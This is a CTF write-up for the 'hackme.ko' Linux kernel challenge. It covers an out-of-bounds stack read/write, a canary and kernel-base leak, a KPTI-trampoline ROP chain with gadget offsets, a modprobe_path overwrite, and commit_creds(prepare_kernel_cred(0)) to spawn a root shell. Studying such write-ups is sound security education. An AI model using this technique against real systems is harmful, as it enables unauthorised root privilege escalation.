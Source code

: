 #### 漏洞
hackme.ko是一个简单的内核驱动，在其read()和write()函数中，针对栈上变量的读/写存在越界。
开启了SMEP, SMAP,FG_KASLR，KPTI等保护。

#### 利用
可通过越界读，leak内核地址信息和栈cookie，并计算其他gadget的地址信息，通过越界写进行ROP.

通过覆写modprobe_path达到代码执行的目的。

绕过KPTI有两种方法，使用第二种：

- 使用信号处理函数，signal(SIGSEGV, foo)
- 使用KPTI Trampoline
从内核态返回用户态时，需要设置CR3寄存器已恢复用户态页表，调用swapgs交换内核和用户态的GS寄存器，然后执行iretq指令将之前压栈的IP/CS/eflags/sp/ss等寄存器弹出，恢复用户态调用时的寄存器上下文。

#### 攻击payload布局
```

  |-------------------|
  |                   |
  | padding(16 uls)   |
  |                   |
  |-------------------|
  |    Canary         |
  |-------------------
  |     \x00          |		rbx
  |-------------------|		
  |     \x00          |		r12
  |-------------------|
  |     \x00          |		rbp
  |-------------------|
  |   ROP Gadget1     |		return address = pop rax;ret
  |-------------------|
  |  0x782f706d742f   | 	/tmp/x to replace modprobe_path
  |-------------------|
  |   ROP Gadget2     |		pop rbx ; pop r12 ; pop rbp ; ret;
  |-------------------|
  |modeprobe_path addr|
  |-------------------|
  |     \x00          |
  |-------------------|
  |     \x00          |
  |-------------------|
  |   ROP Gadget3     |		mov qword ptr [rbx], rax; pop rbx; pop rbp; ret;
  |-------------------|
  |     \x00          |
  |-------------------|
  |     \x00          |
  |-------------------|
  | kpti trampoline   |
  |-------------------|
  |     \x00          |
  |-------------------|
  |     \x00          |
  |-------------------| 
  |      foo          |		iretq stack layout should be:IP|CS|RFLAGS|RSP|SS
  |-------------------|
  |       CS          |
  |-------------------|
  |       RFLAGS      |
  |-------------------|
  |       RSP         |
  |-------------------|
  |       SS          |
  |-------------------|
```
#### use commit_creds(prepare_kernel_cred(0)) to getshell

Steps to achieve this goal:
1. Leak address information from kernel to get the stack canary, kernel image base and other relevant address.
Because FG_KASLR is enabled, we need to get address of commit_creds() and prepare_kernel_cred() from  __ksymtab_commit_creds and __ksymtab_prepare_kernel_cred.

2. Use the arbitray-address-read gadgets to read the content(offset value) at ksymtab_commit_creds, and calculate kernel's commit_creds() address (commit_creds = ksystab_commit_creds + (int)offset)
3. Use the arbitray-address-read gadgets to read the content(offset value) at ksymtab_prepare_kernel_cred, and calculate kernel's prepare_kernel_cred() address (prepare_kernel_cred = ksystab_prepare_kernel_cred + (int)offset)
4. build ROP chain to call prepare_kernel_cred(0) in kernelspace and return to userspace
5. build ROP chain to call commit_creds(return-value-of-prepare_kernel_cred(0)) and return to userspace
6. spawn a root shell when returning to userspace

**Gadgets that are used:**
- AAR

imagebase + 0x4d11 : pop rax; ret

imagebase + 0x4aae : mov eax, dword ptr[rax + 0x10]; pop rbp; ret

- Pass Parameter

imagebase + 0x38a0 : pop rdi; pop rbp; ret

#### Some writeups of this challenge

https://zhangyidong.top/2021/02/10/kernel_pwn(fg_kaslr)/

https://lkmidas.github.io/posts/20210223-linux-kernel-pwn-modprobe/
